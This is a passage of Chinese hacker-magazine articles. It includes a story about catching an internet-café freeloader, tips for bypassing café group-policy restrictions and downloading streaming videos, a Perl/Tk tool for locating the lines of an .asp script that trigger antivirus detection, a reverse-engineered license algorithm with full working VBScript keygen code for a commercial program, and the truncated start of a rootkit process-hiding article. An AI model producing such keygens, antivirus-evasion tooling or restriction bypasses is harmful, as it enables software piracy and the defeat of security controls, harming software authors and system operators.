那个人开始慌了：手足无措，左翻下口袋，右翻下外套，终于把他的公号卡拿了出来，我拿起来看个够也没看出什么名堂。那人用他的沉默来反抗我的怀疑，时间是不容我有更多思考的，我把鼠标移到了右下角收费系统 EP 的图标上，显示出的文字让他突然感到一点不安，因为他明显有些躁动了。好奇和小心让我用很缓和的语气对他说：“你直接下楼跟老板谈去吧！”

那人很老实地走到柜台前，对早已在那里等待的老板说：“我该付多少钱？”边从他的口袋中掏出钱包。

日渐窘困的生意本来就让老板的心情不怎么好，这件事犹如雪上加霜，此时此刻老板心中应该是满天的怒火吧：“你到底在这里这样上了多少次？”老板开口的第一句话，语气明显地生硬。

做错事了心里总会有那么一点空空的感觉，从他的表情和动作明显看出那人有点不知所措，可是想说什么又不知道如何说起，本能使他选择了沉默。我们几个网管和收银员以及那些在柜台旁上网的顾客都把目光集中到了那个人身上，就像聚光灯一样，不过各自的眼神大不相同。

“还是好好说吧，对你对大家都有好处。”我忍不住对他说。

“我们做个生意也不容易；你们还来这样一搞，我们拿什么来赚钱？你要是不说，也好办；那我只有报警了，反正警察到这里也用不了几分钟。”对方的一言不发让老板开始不耐烦了。

那个人猛地一抬头，估计是听到“警察”二字的条件反射吧。

“我说，我说，只要你们不报警。”那人终于按捺不住了，“大概有 5 次吧……”

老板查看了他的资料，惊讶地发现，他的上机记录是如此频繁，消费金额和应付金额相差颇大，和他所说的完全不符。

老板对这样的事情极度气愤，听说以往也遇到过类似情况，他认为这种事交给警察是解决不了问题的，记得他说过这样一句话：抓住了就往死里打！

后来发生了什么我就不得而知了，只看到老板找了两个貌似不良青年的人，把那个人搜到了一个黑黑的角落里……

**前言：**

似乎一切都来得那么顺利，顺利得让人有些匪夷所思！没有一个人愿意拿自己的道路和前途去衡量，至少我是这么想的，可现实总是事与愿违。不知道为什么，这家看起来很落旧甚至有些残缺的网吧前几天竟然发现有人在免费上网！话还得从几天前开始说起。

> **小编评语：**
>
> 我相信，有不少小黑看了此文会出一身冷汗吧？这一次小黑和网管的较量中，小黑败得很难看啊，所以我奉劝大家一句，去网吧做“坏”事，应该抱着学习的态度，而非为了破坏或是达到免费上网的目的，学黑客首先要学会做黑客的原则！

## 读黑手后的一点心得

从本文中你可以学到：

1. 如何用组策略破解网吧限制
2. 如何下载知名视频网站上的视频

我看到黑手的 2006 年 11 月份的《网吧限制破解 IE 篇》，我按作者所提供的方法做，但作者所提供的修改 IE “Internet 选项”网吧已经被禁止了。我认为将作者所提供的用 bat 打开 cmd 方法改一下，同样也可以达到突破网吧下载的目的。就算“Internet 选项”是灰色的按钮也可以。下面就看着吧！先在新建的 bat 文件中写入 **gpedit.msc**，然后保存 bat 文件并运行新建的 bat 文件（其实输入 mmc 用控制台来添加组策略也可以，关于 mmc 可是很实用哦！有兴趣可以多用一下），就这样打开了组策略，定位如图 1 所示。

接下来双击右边的“安全区域和内容分级”，打开如图 2 所示。

在“安全区域和隐私”中将“不自定义安全区域和隐私(D)”改为“导入当前安全区域和隐私设置(Z)”，然后单击“修改设置”，出现我们的“Internet 属性”，如图 3。选取“安全”选项中“自定义级别”选项，接下来不用我说了，都知道了，就是修改下载选项了。


在 2007 年 06 期的《轻松下载视频网站中的 flv 文件》中，作者所用的 Internet 临时文件缓冲下载 flv 文件，我在土豆网上用 Internet 临时文件缓冲下载过程中不能下载到真实的文件，而是一个 flv 的播放器。但作者的第二种方法可以得到地址，但用迅雷、快车下载都不可以。可能是土豆做了防迅雷、快车吧！倒是可以用 IE 自带下载功能下载。这里我还提供一种方法，下面看过程。

首先打开土豆网中你要下载视频的页面，如 **http://www.tudou.com/programs/view/_aWnf_PNE40/**，我们在 tudou 的前面加上一个 kiss，就变成了 **http://www.kisstudou.com/programs/view/_aWnf_PNE40/**；好了，打开这个页面如图 4。

关于这个 kisstudou 网站，它可不只支持土豆哦！还有一些视频网站现在同样也得到了视频地址，如：


- YouTube (www.youtube.com)
- 我乐网 (www.56.com)
- 我秀网 (www.5show.com)
- 优酷网 (www.youku.com)
- 酷6网 (www.ku6.com)
- 新浪播客 (you.video.sina.com.cn)
- 新浪视频 (video.sina.com.cn)
- 爱问视频 (v.iask.com)
- 六间房 (6.cn)
- Mofile (tv.mofile.com)
- ESPN (espnstar.com.cn)
- QQ 播客 (video.qq.com)
- QQ 宽频 (bb.news.qq.com)
- 17173 播客 (vlog.17173.com)
- Metacafe (www.metacafe.com)
- Veoh (www.veoh.com)
- 激动网 (megajoy.com)
- 酷我 MV (mv.koowo.com)
- 爆米花 (www.pomoho.com)
- GamesTV (www.gamestv.com.cn)
- MegaVideo (megavideo.com)
- Stage6 (stage6.com)


大家以后就可以尽情地下想要的好东西了。好了，现在地址得到了，但我用迅雷、快车也无法下载，我在网上转了半天终于找到了一个软件——维棠 FLV 视频下载软件。

打开维棠，选取“任务”中的“新建下载任务”，把我们得到的地址输入，现在我们就可以用软件下载了，速度可是比 IE 自带下载功能要快哦！此文没有什么技术含量，有不妥之处请谅解。

**小编评语：**

此文中下载土豆等网站视频的方法确实不错，推荐给大家，以后看到什么好视频，可以收藏在自己的硬盘里啦。

wolfSea 黄金虫

> **说码编程**
>
> **问：什么是编程**
>
> 答：编程就是为了借助于计算机来达到某一目的或解决某个问题，而使用某种程序设计语言编写程序代码，并使终端得到结果的过程。

## PERL 自助菜单[篇 2]

从本文您可以学到：

深入 PERL 的图形化编程

和编辑沟通不好，导致 1 期的文章与去年 12 期的出现内容重叠，很是抱歉。借着元旦的三日假期，再添上这篇文章，小做一个补充。

上面我们讲了用 Win32::GUI 写 PERL 图形界面，但是安装 Win32::GUI 需要 VC6.0，很不方便，且代码的可移植性也大大降低。而事实上 ActivePerl 的常用模块里也提供了另一个模块——Tk 来实现图形界面的编写。Tk 可以说是 PERL 中最古老的图形界面支持模块了，它提供的功能相当完善，但由于过于古老，在外观上许多地方也不尽人意，特别是不支持中文显示。

好了，下面我们就进入今天的 Tk 学习之旅。模块的基本使用相信大家都知道了，同样我们需要在使用前加载 Tk 模块。同时，一般使用 Tk 开发的界面都遵循下列顺序：

1. 创建一个主窗体。
2. 实例化多个组件，进行配置，然后安装在主窗体中，让组件上的用户操作与一些程序响应相关联。
3. 启动循环事件；启动后，用户的动作（事件）将决定程序做些什么。

下面我们先来看一个例子——第一个 Tk 界面程序 hello,nohack。

```perl
#!/usr/bin/PERL
use Tk;  #加载模块

# 创建窗体
$top = MainWindow->new();
$top->title('simple');

# 实例化组件并加以排列
$l = $top->Label(-text => 'hello,nohack',
                 -anchor => 'n',
                 -width => 30, -height => 4);
$l->pack();

# 进入无限循环以分发到来的事件
MainLoop();
```


写好了第一个程序，我们运行一下，可以得到如图 1 所示效果，充满成就感吧！

当然，Tk 还提供了其他很多组件来实现更为复杂的用户界面，这里就不再赘述。关于学习 Tk，推荐《Mastering PERL/Tk》这本书，这个网上有许多在线手册，可惜没见到中文的，看起来可能有些许困难。再有《Advanced PERL Programming》里面有几章是详细的 Tk 教程，这里我提供中文和原版的电子书。再废话一句，中文的可是我以前花了不知道多长时间才找到的，相当不错了。

看完简单的东西，我们还是来看一个较长的例子：脚本特征码定位器。例子很简单，却不是我想的，这是朋友 Liyx 的 VBS 教程的一个例子，时间问题就借鉴了一下，翻译成 PERL，再写了个界面。程序结构很简单，它把一个被查杀的脚本按行分成若干个文件，再通过用户利用杀毒软件对生成文件筛选，然后分析得出特征码。没有什么很具想像的东西，直接看下程序代码：

```perl
#!/usr/bin/PERL
use Tk;  #加载模块

$mw = MainWindow->new;
# 创建窗体

$p1 = $mw->Frame->pack(-side => 'top', -fill => 'x');
$p2 = $mw->Frame->pack(-side => 'top', -fill => 'x');

$p1->Label(-text => 'tk/SortingOut by wolfSea ww Group', -relief => 'ridge')->pack(-side => 'top', -anchor => 'e');

$p1->Label(-text => 'filename')->pack(-side => 'left', -anchor => 'w');
$ol = $p1->Entry(-textvariable => \$filename, -width => 45)->pack(-side => 'left', -anchor => 'w', -expand => 1);
$p1->Button(-text => 'Next', -width => 8, -command => \&next)->pack(-side => 'right');

$p2->Label(-text => 'outcome')->pack(-side => 'top', -anchor => 'w');
$p2->Label(-textvariable => \$wow, -relief => 'ridge', -anchor => 'w')->pack(-side => 'bottom', -fill => 'x');

$t = $p2->Scrolled('Text', -width => 50, -height => 15)->pack(-side => 'bottom', -fill => 'both', -expand => 1);

$t->insert('end', "tk/SortingOut,a example for nohack\nThanks to the idea given by Liyx\n\nPut in your file name and then press Next\n");

MainLoop();
``````perl
my $sign = "0";
# 标记处理：由于本例的 next 按钮在两种情况下会做出不同的响应，这里利用了 $sign 来做区别。

# next 子函数
sub next {
    if ($sign == 0) {
        loadfile();
        $sign = 1;
        $t->insert('end', "[6unoh]Use your anti-virus program to sort out the output folder and then press Next.\n");
        return
    }
    else {
        analyze();
        return
    }
}

# 当 $sign = 0，调用子函数 loadfile，把 $sign 改为 1，向界面输出提示，返回。
# 否则，调用子函数 analyze，返回。

# 子函数 loadfile：
sub loadfile {
    if (!open(FILE, $filename)) {
        $t->insert('end', "[6unoh]ERROR: Could not open $filename\n");
        return
    }

    # 如果打不开文件，向界面输出提示

    @text = <FILE>;
    close FILE;
    chomp @text;
    # 读取文件存入 @text 中

    mkdir('output', 0777);
    unlink <output/*.v.asp>;
    # 新建文件夹 output，删除 *.v.asp 文件

    $num = 0;
    foreach $line (@text) {
        $num = $num + 1;
        if (!open(FILE, ">output/[6unoh]$num.v.asp")) {
            $t->insert('end', "[6unoh]ERROR: Could not create $num.v\n");
            return
        }
        print FILE $line;
        close FILE
    }
}

# 用 foreach 循环读取 @text 每一行写入新文件，以 $num 计数作为文件名。

# 子函数 analyze
sub analyze {
    unlink 'result.txt';
    # 删除 result.txt 文件

    open(FILE, ">result.txt");
    print FILE "[$filename]The characteristic code";
    # 新建并打开 result.txt 文件，将文本写入文件

    for ($i = 1; $i <= $num; $i = $i + 1) {
        if (-e "output/[6unoh]$i.v.asp") {
            $t->insert('end', "[$filename]The characteristic code's in line $i\n");
            print FILE "[$filename,line $i]@text[$i-1]\n";
        }
    }

    # for 计数生成文件名；用 -e 检查文件是否存在，不存在，向界面输出信息，并写入 result.txt 文件

    close FILE;
    $sign = 0;
    $t->insert('end', "[6unoh]The result is in result.txt.");
    # 关闭文件句柄；恢复 $sign 为 0；向界面输出完成提示
}


```

洋洋洒洒一堆，打完收工。时隔不是很久说下，代码我都是一次就过，运行无问题，但可能会给读者些理解障碍，这里提前致歉。给个运行截图，如图2所示。tk 不支持中文，而本人英文也不是很好，程序难免出现些 Chinese English，也请见谅。再次感谢 Llyx 的 vbs 例子，还有我的同桌张胜。12 点后就是 2008 年了，该文差点写成跨年度的文章。很高兴，能在《黑手》上写了这么多期的 PERL。这些杂志在许多年后，也许我们还会回忆翻看，一如翻看我们的青春岁月。

> （作者提到的 Advanced PERL Programming 中文影印版、例子 hello、nohack 及程序脚本特征码定位器已经收录在光盘中）
编辑点评：因小编与作者沟通不好，造成了文章的重复，在此深表歉意。不过也由此引出了这篇补充，也算是有个交代了，O(∩_∩)O……再次感谢 wolfsea 给我们带来的一系列 PERL 的好文。
- 从本文您可以学到：
- 简单学习利用 HTML
- VBS 编写注册机

## 网友版的注册机

by 南楠

## 突发奇想

闲来无事，觉得用 VB、VC、Delphi、汇编语言编写注册机无聊，心想能不能换个玩法呢？

大家都知道，网站、网页上能放置木马，说明网页上的代码具有可执行功能。于是就想着，能不能将注册机制成网页，上传到网站，使得能够在网上计算注册码？因本人并不擅长网页制作与编程，通过一番准备和试验，证明是可行的，而且也积累了一些网页的编写经验，于是就有了这篇文章。那么，先看看今天使用的软件的注册算法。

## 简析软件的注册算法

这个软件名叫《多功能密码破解软件》，主要用于 Office 套件中的各部分设置的密码破解和 WinRAR、WinZip 密码的破解。未注册时，对猜解的密码的长度有限制，并且得到的密码不能被复制使用。

软件在注册过程中需要注册名和机器码。处理过程中，先将机器码与注册名组合成“机器码 + 注册名”的形式，并将其转化为小写，然后再进行计算。其中，软件自带了一个用于加密解密用的 dll，多次进出进行加密和解密过程。当软件运行到了下列代码时，真正的计算才算开始了：

```text
004648B4    MOV EDX, DWORD PTR SS:[EBP-10]
004648B7    MOV EAX, DWORD PTR DS:[EDX]
004648B9    PUSH EAX
004648BA    CALL 多功能.00464DB0
004648BF    MOV DWORD PTR SS:[EBP-D4], EAX    ; h=16，循环关键
004648C5    MOV EAX, [..]
004648CA    MOV DWORD PTR SS:[EBP-18], EAX    ; 保存？
004648CD    CMP AX, WORD PTR SS:[EBP-64]      ; k=n?... 循环
```

### 读取字符串单位

```text
004648D4  JG  多功能密:00464BC5
004648DA  MOVSX EBX,AX
004648DD  MOV EAX,DWORD PTR SS:[EBP-30]  名称+机器码
004648E0  LEA EDX,DWORD PTR SS:[EBP-54]
004648E3  LEA ECX,DWORD PTR SS:[EBP-30]
004648E6  PUSH EDX
004648E7  PUSH EAX
004648E8  MOV DWORD PTR SS:[EBP-4C],1
004648EF  MOV DWORD PTR SS:[EBP-54],2
004648F6  MOV DWORD PTR SS:[EBP-8C],ECX
004648FC  MOV DWORD PTR SS:[EBP-84],4008
00464906  CALL ESI  读取字符串长度
00464908  MOV ECX,EAX  转移长度n1
0046490A  MOV EAX,EBX  转移i
0046490C  CDQ
0046490D  IDIV ECX  i=i mod n1
0046490F  LEA EAX,DWORD PTR SS:[EBP-64]
00464912  ADD EDX,1  i=i+1
00464915  JO 多功能密:00464DA4
0046491B  PUSH EDX
0046491C  LEA EDX,DWORD PTR SS:[EBP-94]
00464922  PUSH EDX
00464923  PUSH EAX
00464924  CALL DWORD PTR DS:[<&msvbvm60.rtcMidCharVar>]
```

从输入组合中读取一位字符。

我们知道，i mod n1 的结果总是比 n1 小，其结果再加上 1 充其量也就等于 n1。这样就可以从输入的字符串组合正确地读取一位字符。另外，VB 中读取数据的方法与 C 语言略有差异，就是下标不能从 0 开始，而是从 1 开始的。

```text
省略一段无关代码。
0046495D  PUSH ECX
0046495E  PUSH EDX
0046495F  MOV DWORD PTR SS:[EBP-54],2
00464966  MOV DWORD PTR SS:[EBP-8C],EAX
0046496C  MOV DWORD PTR SS:[EBP-94],4008
00464976  CALL ESI  两密小写字符串长度
00464978  MOV ECX,EAX  转移长度n2
0046497A  MOV EAX,EBX  转移i
0046497C  CDQ
0046497D  IDIV ECX  i=i mod n2
0046497F  LEA EAX,DWORD PTR SS:[EBP-64]
00464982  ADD EDX,1  i=i+1
00464985  JO 多功能密:00464DA4
0046498B  PUSH EDX
0046498C  LEA EDX,DWORD PTR SS:[EBP-94]
00464992  PUSH EDX
00464993  PUSH EAX
00464994  CALL DWORD PTR DS:[<&msvbvm60.rtcMidCharVar>]
```

读取第 1 位

从小写的字符串中读取一位字符，原理同上。

以下部分利用上面的两次读取数据进行多次（种）运算，得到一个整数（索引）。其中多次读取字符串的长度，应该是软件作者为今后的算法变形打下的伏笔，在我们这里应该是固定值，n2=18，n3=36。

```text
省略一段无关代码。
004649C1  PUSH ECX
004649C2  CALL DWORD PTR DS:[<&msvbvm60.rtcAnsiValueBstr>]
二次读取结果 ASCII 值：tmp2：
004649C8  IMUL AX,WORD PTR SS:[EBP-18]  tmp3:=tmp2*
004649CD  MOV EDX,DWORD PTR SS:[EBP+8]
004649D0  JO 多功能密:00464DA4
004649D6  MOVSX EBX,AX  转移
004649D9  MOV EAX,DWORD PTR DS:[EDX]
004649DB  PUSH EAX
004649DC  CALL ESI  内置小写字符串长度n2
004649DE  IMUL EBX,EAX  tmp3:=tmp3*n2
004649E1  MOV ECX,DWORD PTR SS:[EBP+14]
004649E4  JO 多功能密:00464DA4
004649EA  MOV EDX,DWORD PTR DS:[ECX]  内置大写字符串
这里的大写字符串为 "QWERTYUIOPLKJHGFDSAZXCVBNM-0987654321"
004649EC  ADD EBX,1  tmp3:=tmp3+1
004649EF  PUSH EDX
004649F0  JO 多功能密:00464DA4
004649F6  CALL ESI  大写字符串长度n3
004649F8  MOV ECX,EAX  转移长度
004649FA  MOV EAX,EBX  转移tmp3
004649FC  CDQ
004649FD  IDIV ECX  tmp3:=tmp3 mod n3
004649FF  MOV ECX,EDX
00464A01  ADD ECX,1  tmp3:=tmp3+1
00464A04  JO 多功能密:00464DA4
00464A0A  CALL DWORD PTR DS:[<&msvbvm60.__vbaI4>]  msvbvm60.__vbaI4
00464A10  MOV EDX,DWORD PTR SS:[EBP-1C]
00464A13  MOV EBX,EAX
00464A15  PUSH EDX
00464A16  CALL DWORD PTR DS:[<&msvbvm60.rtcAnsiValueBstr>]
读取的名称+机器码的 ASCII 值tmp1
00464A1C  MOVSX EAX,AX
00464A1F  MOVSX ECX,BX
00464A22  XOR EAX,ECX  tmp3:=tmp3 xor tmp1
00464A24  LEA EDX,DWORD PTR SS:[EBP-54]
00464A27  PUSH EAX
00464A28  PUSH EDX
00464A29  CALL DWORD PTR DS:[<&msvbvm60.rtcVarBstrFromAnsi>]
作为 ASCII 码转化为字符
```

省略一段无关代码。

```text
00464A4C  PUSH ECX
00464A4D  CALL DWORD PTR DS:[<&msvbvm60.rtcAnsiValueBstr>]
小写的字符转化为 ASCII 码tmp2：
00464A53  IMUL AX,WORD PTR SS:[EBP-18]  tmp4:=tmp2*
00464A58  MOV EDX,DWORD PTR SS:[EBP+C]
00464A5B  JO 多功能密:00464DA4
00464A61  MOVSX EBX,AX  转移
00464A64  MOV EAX,DWORD PTR DS:[EDX]
00464A66  PUSH EAX
00464A67  CALL ESI  名称组合长度n1
00464A69  IMUL EBX,EAX  tmp4:=tmp4*n1
00464A6D  MOV ECX,DWORD PTR SS:[EBP+14]
00464A6F  JO 多功能密:00464DA4
00464A75  MOV EDX,DWORD PTR DS:[ECX]  大写字符串
00464A77  ADD EBX,1  tmp4:=tmp4+1
00464A7A  PUSH EDX
00464A7B  JO 多功能密:00464DA4
00464A81  CALL ESI  大写字符串长度n3
00464A83  MOV ECX,EAX
00464A85  MOV EAX,EBX
00464A87  CDQ
00464A88  IDIV ECX  i:=tmp4 mod n3
00464A8A  MOV ECX,EDX
00464A8C  ADD ECX,1
00464A8F  JO 多功能密:00464DA4
00464A95  CALL DWORD PTR DS:[<&msvbvm60.__vbaI4>]  msvbvm60.__vbaI4
00464A9B  MOV EDX,DWORD PTR SS:[EBP-1C]
00464A9E  MOV EBX,DWORD PTR DS:[<&msvbvm60.rtcAnsiValueBstr>]  msvbvm60.rtcAnsiValueBstr
00464AA4  PUSH EDX
00464AA5  MOV DWORD PTR SS:[EBP-38],EAX
00464AA8  CALL EBX  <&msvbvm60.rtcAnsiValueBstr>
00464AAA  MOVSX ECX,WORD PTR SS:[EBP-38]
00464AAE  MOVSX EAX,AX
00464AB1  XOR EAX,ECX  tmp3:=tmp3 xor 1
省略一段无关代码。
00464AF6  MOVSX ECX,AX
00464AF9  MOV EAX,DWORD PTR DS:[EDX]
00464AFB  XOR EBX,ECX  tmp3:=tmp3 xor tmp2
00464AFD  PUSH EAX
00464AFE  CALL ESI
00464B00  MOV ECX,EAX
00464B02  MOV EAX,EBX
00464B04  CDQ
00464B05  DIV ECX    ; tmp3=tmp3 mod 36
00464B07  ADD EDX,1  ; tmp3=tmp3+1
...
00464B6C  CALL DWORD PTR DS:[<&msvbvm60.rtcMidCharVar>]
```

省略一段无关代码。

结果查表

```text
00464B72  LEA EDX, DWORD PTR SS:[EBP-84]
00464B78  LEA EAX, DWORD PTR SS:[EBP-64]
00464B7B  PUSH EDX
00464B7C  LEA ECX, DWORD PTR SS:[EBP-74]
00464B7F  PUSH EAX
00464B80  PUSH ECX
00464B81  CALL DWORD PTR DS:[<&msvbvm60.__vbaVarCat>]
```

组合查表结果

省略一段无关代码。

```text
00464BC0  MP:    ; 回功能串004648CD，循环一遍
...
00464C04  CALL ESI ; 格式化输出
```

这里是将上面的计算得到的 16 个字符进行格式化输出，格式化为：`XXXX-XXXX-XXXX-XXXX` 的形式。

```text
00464C06  LEA EDX, DWORD PTR SS:[EBP-54]
00464C09  PUSH EDX
00464C0A  CALL DWORD PTR DS:[<&msvbvm60.__vbaStrVarMove>]
...
00464C10  MOV EDX, EAX ; 真实注册码


```

到此，可以看到真实的注册码的明码，后面当然就会出现注册码的比较了。

## 注册机基本设置

打开 FrontPage，新建一个空文档，取名为“XXX 注册机”保存它。然后在页面设计界面里输入如：某某注册机，南极编写等信息。再调整位置、字体和字号使之符合你的美观要求即可，如图 1 所示。
图 1 网页基本界面

上面的这些设置只是起着美观的作用，与注册码的计算无关。真正起作用的东西在其它编程平台中称之为控件，在网页中称之为菜单。

通常，要制作注册机，需要有人机交流的场所与环境。在使用开发软件制作注册机时，少不了要有输入输出的文本框，确定、帮助、退出等按钮。另外还需要一些标签，用以指导使用者的操作。那么在 FrontPage 中如何实现呢？

现在我需要一个文本框，看 FrontPage 如何设置。使用菜单中的插入→表单→单行文本框，插入一个文本框，以便于我们输入相应的数据，设计与运行时的模样如图 2、图 3 所示。
图 2 设计状态下的文本框

这个在 FrontPage 中叫做单行文本表单，其实就是一个用于输入的文本框，一个确认按钮和一个清除按钮。但设计时的模样让人不爽，那个虚线边框的矩形是什么呢？

还是来琢磨琢磨 FrontPage 到底是怎么设置的。将 FrontPage 切换到 HTML 状态，看 `<body></body>` 段中添加了这个控件后的代码：

```html
<form method="POST" action="--WEBBOT-SELF--">
  <!--webbot bot="SaveResults" U-File="fpweb/private/form_results.txt" S-Format="TEXT/CSV" S-Label-Fields="TRUE" -->
  <p align="center"><input type="text" name="T1" size="20">
  <input type="submit" value="提交" name="B1"><input type="reset" value="全部重写" name="B2"></p>
</form>
<p align="left">&nbsp;</p>
```

这次我们从内到外进行分析。段落 `<input type="text" name="T1" size="20">` 设置了一个控件，这个控件的类别为文本框，其名称为 T1，宽度为 20。段落 `<input type="submit" value="提交" name="B1">` 设置了第二个控件，其类别为按钮，其值为“提交”，名称为 B1。段落 `<input type="reset" value="全部重写" name="B2">` 设置了第三个控件，也是按钮类别的，标题为“全部重写”，名称为 B2。它们都以关键字 input 开头，故可以认为，input 是控件标识符。总结一下，窗体控件以 input 作为标识，按钮类控件需要定义类别、标题和名称，以便于识别和引用，大小不是必需的；文本框类控件需要定义类别、名称和大小，标题不是必需的。另外，类别的值的表示方法也不是唯一的，如 submit、reset、button 等，但有既定的含义，属于关键字。知道了上述设置的作用后，我们可以将这一段代码简化为：

```html
<form>
  <p align="center"><input type="text" name="T1" size="20"><input type="submit" value="提交" name="B1"><input type="reset" value="全部重写" name="B2"></p>
</form>


```

如果需要，你可以酌情添加相应的控件代码（文本框和按钮），结果与使用菜单直接插入效果相同。如果你对界面的效果不满意，可将 FrontPage 切换到普通视图状态，在那里进行有关的调整，如图 4 所示。

哈哈，很不错。现在还真是那么回事了。当然，你还可以继续进行美化，自己去实验吧，我就不多说了。

上面编写的代码可以保存为模板，以后编写其它的注册机时还可以使用。
图 4 布置完成的网页

## VBScript 概要

虽说我们已经将注册机的架子搭好了，但它并不能直接被使用，尤其是不能像 VB、VC 等编程平台那样，双击“确定”能来到事件处理代码编写区。FrontPage 压根儿就没这个功能，这些东西要我们自己找位置进行编写。到这里需要一点脚本知识，其实跟 VB 也差不了很多，几乎很相似。

学习高级编程的人都知道，现在的程序都采用事件驱动方式接受人机对话，在网页中编写注册机亦如此。典型的事件如文本框的改变事件、按钮的单/双击事件等，你只要在相关的控件上双击，自然进入代码编辑区，再作出适当的选择和编写就行了。但在编写网页代码时这一套行不通了，例如 FrontPage 就没有这个功能，所以不能按照过去的方法来做这件事。现在我们需要做好三件事：

- 触发事件与事件处理代码的关联；
- 事件处理代码的编写；
- 数据的传送。

要做好这三件事，我们现在要开始转换地方工作了。我们的工作的新位置在 `<head></head>` 段落，整个的设计都在这里进行。

## 搭建脚本框架

这里使用 VBScript 脚本，其最基本的框架形式为：```vb
<SCRIPT LANGUAGE="VBScript">
<!--
...
-->
</SCRIPT>
```

所要编写的代码部分都应该在 `<!--` 与 `-->` 段落内部。虽然这是注释段，但是代码都可以被执行。在这里编写代码，就像在 VB 中编写代码一样方便，只不过没有 VB 中的那些跟随提示功能，代码格式的正确性要靠编写者把握。当然，调试也是不大方便的。

## 编写相关代码

现在想插入第一段代码，使得在单击“说明”按钮时弹出消息“我还没准备好呢！”。编写如下代码：

```vb
Sub B2_OnClick
    MsgBox "我还没准备好呢！", vbInformation, "别急"
End Sub
```

执行后，效果如图 5 所示。

怎么样，是不是和 VB 编写一样！从这里我们看到，编写事件驱动代码的方法和一般高级语言编写的方法是一样的，也是控件名、触发方式，只不过不能自动填充罢了。知道了这些，后面的工作就简单了，不外乎是照抄 VB 代码而已，但有些地方需要说明：


- 1. VBScript 有数据类型，其数据类型与 VB 基本一致。但没有变体类型，所有的变量都是 Variant，可以存放任何类型的数据，故而声明变量不需要 as 子句，例如 dim tmp1, tmp2。
- 2. VB 的很多函数 VBScript 中没有，使得一些转换之类的问题需要重新考虑。最典型就是 Val 函数，没有它文本框中的数字不能转换为整数，但可以使用 VB 中的强制类型转换的方法来解决。
- 3. 网页中的控件的属性表示方法与 VB 不完全相同，故在使用属性设置前务必搞清楚表示方法，以免犯迷糊。

## 事件及其关联

Html 中对触发事件支持最好的是“单击”事件，你只要在按钮或文本框上单击，即可触发这个事件。而拦截这个事件的子过程都是如下代码：

```vb
Sub name_OnClick
...
End Sub
```

你只需要将 name 替换成对应的控件名称即可，如 B1、T1 等。VBScript 同样支持函数，其注意事项见上面的说明。

## 数据传送

Html 中的数据传送没有 VB 中好理解，这是其特殊性，必须按照它的规律进行。通常，数据的传送方式按照“所在位置、所属窗体（表单）、所属窗体的控件、控件对应属性”来进行。例如，我们的注册机全部设置都在同一个 htm 文件中，则所在位置即为 Document；所属窗体引用窗体名称，这个需要我们进行设置，如 `<form name="regform">` 就是将窗体命名为 regform，所属控件引用控件名称，如 B1、T1 等。这样，连起来就是：Document.regform.T1.Value，相当于 VB 中的 Text1.Text。当然，如果嫌书写代码麻烦，也可以先这么做：

```vb
Dim MyForm
Set MyForm = Document.regform
```

则调用时的方法就是：MyForm.T1.Value，也是很简单的。

## 注册机 VBScript 代码

计算原理见前面的分析，这里仅贴出 VBScript 部分的代码，其中使用了子过程和子函数作为范例。

```vb
<SCRIPT LANGUAGE="VBScript">
<!--
Sub B2_OnClick
    MsgBox "我还没准备好呢！仅供测试，版本 V4.5!", vbInformation, "别急"
End Sub

Sub B1_OnClick
    Dim Uid, Lid, sn
    Dim MyForm

    Set MyForm = Document.regForm
    Uid = MyForm.T2.value
    Uid = MyForm.T1.value & Uid
    Lid = LCase(Uid)
    If Len(Uid) = 0 Then Exit Sub
    sn = CalSN(Uid, Lid)
    MyForm.T3.value = Mid(sn, 1, 4) & "-" & Mid(sn, 5, 4) & "-" & Mid(sn, 9, 4) & "-" & Mid(sn, 13, 4)
End Sub

Function CalSN(Uid, Lid)
    Dim n, i, k, tmp1, tmp2, tmp3, tmp4, tmp_2, tmp_3, str1, str2, sn
    str1 = "QWERTYUIOPLKJHGFDSAZXCVBNM0987654321"
    str2 = "ewrwvuierqwsdlfkymb"
    n = Len(Uid)
    For i = 1 To 16
        k = ((i Mod n) + 1)
        tmp1 = Asc(Mid(Lid, k, 1))
        k = (i Mod 18) + 1
        tmp2 = Asc(Mid(str2, k, 1))
        tmp_2 = tmp2 * i * 18 + 1
        tmp_2 = (tmp_2 Mod 36) + 1
        tmp_2 = tmp_2 Xor tmp1
        tmp_3 = tmp2 * i * n + 1
        tmp_3 = tmp_3 Mod 36 + 1
        tmp_2 = tmp_2 Xor k
        tmp_2 = tmp_2 Xor tmp2
        tmp_2 = tmp_2 Mod 36
        tmp_2 = tmp_2 + 1
        sn = sn & Mid(str1, tmp_2, 1)
    Next
    CalSN = sn
End Function
-->
</SCRIPT>
```

将全部的代码保存后，一个 html 型的注册机就制作好了。测试一下这款无编程环境支持的平民化的注册机，心里是不是很爽！

使用网页制作注册机时，读者更关注表单中的控件与脚本中的事件的关联方法，否则你制作的将是一匹“死马”。

## 后记

用脚本制作注册机有一个最大的弱点，就是脚本不易调试，不易发现代码的错误，全凭你对软件计算流程的准确把握。若发现计算结果与企盼的结果不相符合，需要仔细分析你的代码部分的问题。

为了保护你的“劳动成果”，你可以对完成的网页进行加密，让人看不明白你写的是些什么、怎么写的，还可以添加一些控制代码，如禁止网页复制、禁止保存和禁止离线浏览等。这些措施对于那些即使擅长网页制作，但不会加解密的人而言，也会起到不小的保护作用。将这样的网页上传到你的网站，要注册码的来到你这里，这不就增加了你的网站的访问量吗？！

附带文件是一个已经制作好的网页注册机，可用于软件《多功能密码破解软件 4.5》，仅供测试之用。当然，注册码无疑是正确的，但要真正地注册，作者可是留了一手，软件并不向任何地方写入数据。作者会给你两个文件，你需要手工放入 Windows 文件夹，请注意文件名 winregkeypwd4.0.ini 和 winformat4.0.dll。

> （作者提到的多功能解密软件 PasswordBreak 4.5，网页版的注册机的代码已经收录在光盘中）

> **编辑点评：** 作者的想法很不错，也已经将其实现，看来以后的注册机不用再下载 EXE 了，网页就可以办到！

## My RootKit Hide Process

- 从本文您可以学到：
- 1. 了解钩子、SSDT
- 2. 在 ring0 下利用 SSDT 隐藏进程

大家都是把好点的技术握在自己手里，就连已经公布了的也看不到多少，毕竟人心难测，不然哪里还来的骇客。废话不多说了，回顾一下。上两篇文章讲了一些对于 rootkit 的基础，相信大家对 rootkit 有了一定的认识了，这一篇主要围绕 hide process 来讲。

## 钩子

